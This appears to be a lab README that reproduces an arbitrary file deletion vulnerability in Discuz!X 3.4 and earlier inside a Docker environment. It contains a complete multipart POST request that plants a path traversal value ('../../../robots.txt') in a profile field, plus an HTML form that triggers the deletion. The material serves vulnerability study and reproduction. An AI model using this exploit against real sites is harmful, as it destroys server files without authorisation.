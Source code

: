 # Discuz!X ≤3.4 Arbitrary File Removal Vulnerability

Impact version: Discuz! X ≤ 3.4

Vulnerability details: https://lorexxar.cn/2017/09/30/dz-delete/

#Starting the environment

Execute the following command to deploy the Discuz!X installation environment.

```
Docker-compose up -d
```

When installing, just modify the database address to `db`, and keep the default:

![](1.png)

# Vulnerability reproduction

Visit `http://your-ip/robots.txt` to see that robots.txt is there:

![](2.png)

After registering the user, find your own forghash on the personal settings page:

![](4.png)

Bring your own cookies and forghash to send the following packets:

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html, application/xhtml+xml, application/xml; q=0.9, image/webp, image/apng, */*; q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN, zh; q=0.8, en; q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```

After the submission is successful, the birthplace on the user profile modification page will be displayed as shown in the following figure:

![](5.png)

Explain that our dirty data has entered the database.

Then, create a new `upload.html`, the code is as follows, change the `[your-ip]` to the domain name of discuz, and change the `[form-hash]` to your forghash:

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

Open the page with a browser and upload a normal picture. At this point the dirty data should have been extracted and the vulnerability has been exploited.

Visit `http://your-ip/robots.txt` again and find that the file was successfully deleted:

![](6.png)
